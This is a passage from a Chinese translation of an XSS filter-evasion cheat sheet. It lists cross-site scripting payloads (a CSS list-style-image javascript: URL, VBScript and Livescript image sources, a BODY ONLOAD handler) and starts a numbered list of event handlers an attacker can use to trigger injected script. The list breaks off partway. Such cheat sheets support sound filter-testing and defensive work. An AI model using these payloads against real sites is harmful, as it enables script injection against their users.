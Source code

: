 ### List-style-image

```
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br> 
```

### List-style-image

为带有符号的列表嵌入自定义图片的符号。它是只能工作在 ie 渲染引擎因为 javascript 指令。这不是一个特别有用的 xss 向量。

```
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br> 
```

### VBscript in an image

```
<IMG SRC='vbscript:msgbox("XSS")'> 
```

### Livescript (仅适用于老版本的 Netscape)

```
<IMG SRC="livescript:[code][/code]"> 
```

### BODY 标签

这个方法不需要使用任何"javascript:" or "`<SCRIPT...`" 的变体去实现 xss 攻击。Dan Crowley 特别指出你可以额外的加入一个空格在等号之前("onload=" != "onload ="):

```
<BODY ONLOAD=alert('XSS')> 
```

### 事件处理程序

它可以被用于上文中的一些共性 xss 攻击（这是最完整的一个实时更新的在线列表）。感谢 Rene Ledosquet 的更新。此外你可以参考 [Dottoro Web Reference](http://help.dottoro.com/) 或是 [events in JavaScript](http://help.dottoro.com/ljfvvdnm.php).

```
 1\. FSCommand() (攻击者可以使用它当执行一个嵌入的 flash 对象时)
 2\. onAbort() (当使用者终止一张正在载入的图片)
 3\. onActivate() (当对象被设置为激活元素)
 4\. onAfterPrint() (用户打印或是预览打印工作后激活)
 5\. onAfterUpdate() (激活在一个数据对象当源对象数据更新后)
 6\. onBeforeActivate() (触发在一个对象被设置为激活元素)
 7\. onBeforeCopy() (攻击者执行攻击代码在一个选区被复制到剪贴板之前-攻击者可以实现它通过 execCommand("Copy")函数。)
 8\. onBeforeCut() (攻击者执行攻击代码在在一个选区被剪贴。)
 9\. onBeforeDeactivate() (当激活元素被改变后触发)
 10\. onBeforeEditFocus() (触发在一个可被编辑的元素内的对象就按测到一个 UI-activated 状态或是一个可被编辑对象被选择之前)
 11\. onBeforePaste() (用户需要被欺骗执行粘贴或是去触发它通过 execCommand("Paste")函数。)
 12\. onBeforePrint() (用户需要被欺骗执行打印或是攻击者可以使用 print()或是 execCommand("Print")函数。)
 13\. onBeforeUnload() (用户需要被欺骗关闭浏览器-攻击者不可以 unload windows 除非它是被执行从其父窗口。)
 14\. onBeforeUpdate() (激活在数据对象在源对象更新数据之后。)
 15\. onBegin() (onbegin 事件被立即触发当元素的声明周期开始后)
 16\. onBlur() (当失去焦点时触发*)
 17\. onBounce() (触发当选框对象的 behavior 属性被设置为"alternate"或是选框的内容抵达窗口的一边。)
 18\. onCellChange() (触发当数据改变在数据 provider)
 19\. onChange() (select, text, or TEXTAREA 字段失去焦点或是它们的值是被改变。)
 20\. onClick()(点击事件)
 21\. onContextMenu() (用户需要右击在攻击攻击区域)
 22\. onControlSelect() (当用户去控制一个选择对象时触发。)
 23\. onCopy() (用户需要去 copy 某些东西或是利用 execCommand("Copy")命令)
 24\. onCut() (用户需要 copy 某些东西或是利用 execCommand("Cut") 命令)
 25\. onDataAvailable() (用户改变数据在某个元素上或是攻击者可以执行相同的函数。)
 26\. onDataSetChanged() (当源数据对象被改变时触发)
 27\. onDataSetComplete() (触发当数据是成功获取到从数据源对象)
```